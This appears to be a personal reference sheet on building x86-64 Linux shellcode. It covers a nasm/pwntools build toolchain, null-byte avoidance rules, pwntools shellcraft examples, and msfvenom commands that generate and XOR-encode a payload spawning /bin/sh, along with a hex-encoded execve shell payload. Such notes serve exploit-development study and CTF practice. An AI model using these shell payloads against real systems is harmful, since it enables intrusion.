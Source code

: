 # Shellcoding
- [shellstorm](http://shell-storm.org/shellcode/index.html)
- [pwntools asm docs](https://docs.pwntools.com/en/stable/asm.html)
- [pwntools cli docs](https://docs.pwntools.com/en/stable/commandline.html)

## Basic toolchain

### Code
> build-shellcode.sh
```bash
#!/bin/bash

if [ -z "$1" ]; then
  echo "Usage: $0 filename"
  exit 1
fi

run_flag=false
if [ "$2" == "--run" ]; then
  run_flag=true
fi

filename=$(basename -- "$1")
filename_noext="${filename%.*}"

nasm -f elf64 "$1" -o "${filename_noext}.o"

ld "${filename_noext}.o" -o "${filename_noext}.linked"

python parse-shellcode.py "${filename_noext}.linked"

if [ "$run_flag" == true ]; then
  ./"${filename_noext}.linked"
fi
```

> parse-shellcode.py
```python
#!/usr/bin/python3

import sys
from pwn import *

context(os="linux", arch="amd64", log_level="error")

file = ELF(sys.argv[1])
shellcode = file.section(".text")

print(shellcode.hex())
print(''.join([r'\x{:02x}'.format(c) for c in shellcode]))

print("%d bytes - Found NULL bytes" % len(shellcode)) if [i for i in shellcode if i == 0] else print("%d bytes - No NULL bytes" % len(shellcode))
```
### Usage
```bash
./build-shellcode.sh some_asm_shellcode.asm --run
```

## Shellcode ASM template
> shellcode_asm_template.asm
```asm
section .text
    global _start

_start:
    xor rax, rax
    mov rax, 0x6574616161616c70
    push rax
    mov rax, 0x6d657420656d6f53 
    push rax

    xor rax, rax
    mov al, 0x01
    mov dil, 0x01
    mov rsi, rsp
    mov dl, 16
    syscall

    xor al, al
    mov al, 0x3c
    xor dil, dil
    syscall
```

## Compliance 
The shellcode must fill the following requirements:
- Does not contain variables
  - The entire shellcode must be under the `.text` section. 
  - Move strings to the stack, max size per "push" is 8 bytes, in reverse order.
```asm
mov rbx, 'hi'
push rbx
mov rbx, 'bonjour '
push rbx
mov rsi, rsp
```
- Does not refer to direct memory addresses
  - Replace with calls to labels or rip-relative addresses (for calls and loops)
  - Push to the Stack and use rsp as the address (for mov and other assembly instructions)
- Does not contain any null bytes (00)
  - Use registers that match the data size (like `mov al, 1` instead of `mov rax, 1`)
```asm
    mov bx, 'hi'
    push bx
    mov rbx, 'bonjour '
    push rbx
    mov rsi, rsp
    mov al, 1
    mov dil, 1
    mov dl, 10
    syscall
```

## With pwntools
```bash
pwn asm 'pop rax; push rax;' -c 'amd64'
#
# 5850
#

pwn disasm '5850' -c 'amd64'
#
#   0:    58                       pop    rax
#   1:    50                       push   rax
#

pwn disasm '6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05' -c amd64
```

```python
python
>>> from pwn import *
>>> context.update(arch='amd64', os='linux')
>>> asm('mov rax,1')
>>> asm('mov rax,1').hex()
>>> printb = lambda x: print(' '.join(f'{byte:02x}' for byte in x))
>>> lprintb = lambda filename: print(' '.join(f'{byte:02x}' for byte in ELF(filename).section('.text')))
>>> printb(ELF('someExe').section('.text'))

>>> run_shellcode(unhex('4831db66bb7921...')).interactive()
```

## Shellcrafting
- [pwntools shellcraft amd64 docs](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)
```bash
pwn shellcraft -l 'amd64.linux'
pwn shellcraft amd64.linux.sh
```

```python
from pwn import *
context(os="linux", arch="amd64", log_level="error")
dir(shellcraft)

syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
asm(syscall).hex()
```

### With msfvenom
```bash
msfvenom -l payloads | grep 'linux/x64'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('...'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```
